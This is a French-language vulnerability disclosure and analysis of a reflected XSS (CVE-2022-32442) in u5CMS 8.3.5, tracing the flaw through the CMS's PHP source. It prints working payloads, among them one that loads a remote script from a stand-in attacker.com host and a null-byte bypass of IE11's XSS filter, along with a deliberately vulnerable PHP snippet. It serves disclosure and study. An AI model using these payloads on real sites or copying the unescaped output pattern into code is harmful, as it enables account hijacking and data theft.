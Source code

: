 ```yaml
---
description: Mis à jour le 10/07/2022
---
```


# CVE-2022-32442

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** XSS réfléchie ([CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html))

La page d'accueil d'u5CMS en version 8.3.5 est vulnérable à une Cross-Site Scripting (XSS) de type réfléchie. La charge peut être être injectée après le caractère `?` de l'URL et est réfléchie dans les deux liens HTML permettant le changement de langue.

![S](<../../.gitbook/assets/image (5) (1) (2).png>)

## Analyse de la vulnérabilité

Ce qui suit le caractère `?` de l'URL est réfléchie dans l'attribut `href` du lien `<a></a>` des deux (autres) choix de langues qu'offre le CMS :&#x20;

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

L'injection d'un caractère `"` visant à s'échapper de l'attribut `href` afin d'injecter la charge malicieuse `"onmouseover='alert(1)'value="&l=fr` ne fonctionne pas. En effet, le navigateur encode les caractères spéciaux rendant l'attaque ainsi sans effet :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

L'encodage effectué par les navigateurs est le résultat de la bonne implémentation de la section 2.2 de la RFC 1738 ([https://datatracker.ietf.org/doc/html/rfc1738#section-2.2](https://datatracker.ietf.org/doc/html/rfc1738#section-2.2)) :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

Firefox, Chrome ou encore Edge sont des bons élèves et implémentent correctement cette RFC, mais ce n'est pas forcément le cas pour ce bon vieux IE11. En effet ce navigateur n'encode pas les noms et les valeurs des paramètres :&#x20;

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

L'exécution d'un script distant est également possible grâce à la payload suivante `"><script/src=https://attacker.com/xss.js>&l=fr` :&#x20;

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Et ce, même si le filtre anti-XSS d'IE11 semble être bien actif :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

{% hint style="info" %}
Microsoft a annoncé qu'Internet Explorer 11 ne sera plus supporté et progressivement retiré des versions de Windows. Cela peut avoir pour conséquence que les remontées de ce type (ie. exploitable seulement sous IE11) ne soient plus acceptées au sein des programmes de Bug Bounty.
{% endhint %}

{% hint style="danger" %}
Attention à lire également la partie "Code vulnérable" afin de bien comprendre le fonctionnement de l'attaque et la raison pour laquelle la vulnérabilité est exploitable seulement sous IE11.
{% endhint %}

Afin de prouver la présence de la XSS réfléchie sur n'importe quel navigateur il est possible de passer par une interception de proxy via Burp (ou autre) :&#x20;

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

## Code vulnérable

Le fichier `index.php` va rechercher les motifs `{{{motifs}}}` dans le fichier `htmltemplate.css` :

{% code title="index.php" %}
```php
$template=str_replace('[_logo_]','r/logo/'.def($file_d,$file_e,$file_f).'?t='.filemtime('r/logo/'.def($file_d,$file_e,$file_f)),file_get_contents('r/htmltemplate.css'));
...
$i_i_item=explode('{{{',$template);
for ($i_i_i=0;$i_i_i<count($i_i_item);$i_i_i++) {
   if (strpos($i_i_item[$i_i_i],'}}}')>1) {
      $i_i_part=explode('}}}',$i_i_item[$i_i_i]);
```
{% endcode %}

A un certain moment, le motif sera celui concernant l'affichage des liens de changement de langues `{{{languages}}}` :&#x20;

{% code title="htmltemplate.css" %}
```html
<div id="main">
  <div id="header" style="background:url([_logo_]);background-size:cover">
    <div id="metanavi">&nbsp;&nbsp;&nbsp;<a name="search"></a>{{{search}}}
      <div id="languages">{{{languages}}}</div>
```
{% endcode %}

Alors, le fichier nommé `u5sys.languages.php` sera inclus (`$i_i_part[0]` et aura pour valeur `"languages"`) :&#x20;

{% code title="index.php" %}
```php
if (file_exists('u5sys.'.$i_i_part[0].'.php')) include('u5sys.'.$i_i_part[0].'.php');
```
{% endcode %}

Ce nouveau fichier va afficher au sein de la page d'accueil les deux liens de changement de langues suivant la valeur contenu dans le paramètre de l'URL `l` :

{% code title="u5sys.languages.php" %}
```php
if ($_GET['l']==$lan3na) {
  $lancode=$lan3na;
  $nbsp='';
  if ($lan1name!='' && $lan2name!='') $nbsp='&nbsp;&nbsp;&nbsp;';
  if($u5showlinkofactivelanguageinmetanavi=='yes')$lanswitch='<a href="'.chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>'.$nbsp.'<a href="'.chglang($lan3na).'">'.$lan3name.'</a>';
  else $lanswitch='<a href="'. chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>';
}

...

echo $lanswitch;
```
{% endcode %}

{% hint style="info" %}
Il existe en fait trois blocs du même genre en fonction de la langue sélectionnée : "fr", "de" ou "en". L'exemple de code ici correspond à la langue "fr".
{% endhint %}

La fonction `chglang()` retourne la variable `$u` qui prend comme valeur le caractère `?` ainsi que  ce qui suit dans l'URL (grâce à `$_SERVER['QUERY_STRING']`) :

{% code title="chglang.inc.php" %}
```php
function chglang($l) {
  global $lan1na;
  global $lan2na;
  global $lan3na;
  
  $u='?'.$_SERVER['QUERY_STRING'];
  //echo 'query string : ' . $_SERVER['QUERY_STRING'];
  $u=str_replace('l='.$lan1na,'',$u);
  $u=str_replace('l='.$lan2na,'',$u);
  $u=str_replace('l='.$lan3na,'',$u);
  $u=str_replace('l=','',$u);
  $u=($u.'&l='.$l);
  $u=str_replace('&&','&',$u);
  $u=str_replace('?&','?',$u);
  //$u=str_replace('&','&amp;',$u);
  return $u;
}
```
{% endcode %}

{% hint style="info" %}
Les variables $lan1na, $lan2na, $lan3na correspondent respectivement aux chaines "de", "en" et "fr". Elles sont récupérées depuis la table `languages` en base de données.
{% endhint %}

Le coupable de la non exploitabilité de la vulnérabilité XSS sur d'autres navigateurs que IE11, à savoir à minima Chrome et Firefox, est la récupération de la valeur de l'URL par la variable `$_SERVER['QUERY_STRING']`. En effet, les donnée présentes dans l'URL et récupérées via ce procédé sont bien encodées par les navigateurs récents (la situation serait la même si les données étaient récupérées par la variable `$_SERVER['REQUEST-URI']`) et pas décodé par un composant côté serveur. Ce n'est pas le cas lors d'une récupération des données via la variable `$_GET['variable']` par exemple.

{% code title="globals.inc.php" %}
```php
$sql_a="SELECT * FROM languages";
$result_a=mysql_query($sql_a);
...
$row_a = mysql_fetch_array($result_a);
...
$lan1na=$row_a['lan1na'];
$lan2na=$row_a['lan2na'];
$lan3na=$row_a['lan3na'];
```
{% endcode %}

![](<../../.gitbook/assets/image (3) (1) (1).png>)

**Mise à jour du 10/07/2022**

La reproduction du code vulnérable dans un contexte plus simple (hébergé toujours sur la même VM) :&#x20;

```php
<?php
echo 'a href="example.com' . $_SERVER["QUERY_STRING"] .'">lien</a>';
?>
```

fait se déclencher la protection anti-XSS d'IE11 :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (2).png>)

La cause de cette différence (entre l'environnement utilisé pour le test de u5cms et celui de PoC) n'a pas pu être identifiée mais le contournement suivant `<script/%00%00v%00%00>alert(1)</script>` semble fonctionner dans le cadre du PoC :&#x20;

![](<../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

et également sur le CMS vulnérable :&#x20;

![](<../../.gitbook/assets/image (3) (1) (2).png>)

## Ressources

* [https://github.com/u5cms/u5cms/issues/49](https://github.com/u5cms/u5cms/issues/49)
* [https://twitter.com/xsspayloads/status/1276386591972438017](https://twitter.com/xsspayloads/status/1276386591972438017)

